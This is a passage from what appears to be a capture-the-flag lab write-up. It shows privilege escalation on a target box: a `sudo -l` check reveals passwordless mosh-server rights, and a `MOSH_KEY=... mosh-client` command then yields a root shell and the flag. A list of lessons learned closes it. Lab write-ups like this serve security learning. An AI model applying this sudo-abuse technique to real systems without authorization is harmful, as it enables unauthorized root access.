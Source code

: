 ```
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:27:33 2025 from 10.10.14.62
svcMosh@underpass:~$ 
```

9. What is the full path of the command that the svcMosh user can run as any user?
Use `sudo -l`:
```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
https://mosh.org/

10. Submit the flag located in the root user's home directory.
After running `sudo -l` to see what privs we have, we run sudo mosh-server which starts a server:
```
svcMosh@underpass:~$ sudo mosh-server


MOSH CONNECT 60001 kdzABQNGRhoTBKiOFenrpg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2278]
```
It complains about no MOSH_KEY:
```
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
MOSH_KEY environment variable not found.
```
The mosh-server command gives you that mosh key so include it in the command:
`svcMosh@underpass:~$ MOSH_KEY=eByZKeFlRSz0lb27UjvRDg mosh-client 127.0.0.1 60001`
The servers seem very short lived, so be quick and you'll log in as `root` and get the flag

## Lessons
- Rather than bruteforce directories for login pages etc open-source will just have that on their GitHub 
- `ssh svcmosh@10.129.231.213` would NOT have worked, only `ssh svcMosh@10.129.231.213`
- Don't forget `find . -type f -ls`
- Look in `/home` for other users
- Poke more at programs/applications to learn their commands, and also directories. Especially if they're open source.

